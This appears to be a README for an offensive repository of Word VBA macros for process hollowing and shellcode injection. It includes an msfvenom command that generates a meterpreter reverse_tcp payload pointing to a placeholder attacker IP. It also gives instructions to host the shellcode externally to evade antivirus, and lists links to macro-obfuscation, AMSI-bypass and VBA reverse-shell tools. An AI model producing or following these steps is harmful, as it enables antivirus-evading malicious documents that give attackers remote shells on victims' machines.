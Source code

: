 # Word macros
### Process hollowing
Process hollowing that also works on 32 bit:
https://gist.github.com/Mayfly277/6edbcf3be63921b5071183e1cfdb3ea8

Your payload size will be shown in the output of your msfvenom command. Make sure to put that in on line 162. 


Original 64 bit version:
https://github.com/ColeHouston/word-vba-process-hollowing/blob/main/macro.vb


### msfhex_inject.vba
32 bit only
Hosts the shellcode externally to bypass AV
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.xx.xxx LPORT=4444 EXITFUNC=thread -f hex > shellcode.txt
Host with https://github.com/beauknowstech/gup or `python3 -m http.server`

make sure to change the IP on line 87


### shellcode_runner.vba
Converted https://arttoolkit.github.io/wadcoms/ShellcodeRunner-VBA/ to 32 bit.


## Other resources:

https://github.com/S3cur3Th1sSh1t/OffensiveVBA/tree/main/src

https://github.com/hackinaggie/OSEP-Tools-v2/tree/main/Macros

https://swisskyrepo.github.io/InternalAllTheThings/redteam/access/office-attacks/

https://www.depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs/

https://www.youtube.com/watch?v=KeSRGjnTdSc

https://secureyourit.co.uk/wp/2019/05/10/dynamic-microsoft-office-365-amsi-in-memory-bypass-using-vba/

https://medium.com/@luisgerardomoret_69654/obfuscating-office-macros-to-evade-defender-468606f5790c

https://github.com/Inf0secRabbit/BadAssMacros

https://github.com/JohnWoodman/VBA-Macro-Reverse-Shell/blob/main/VBA-Reverse-Shell.vba

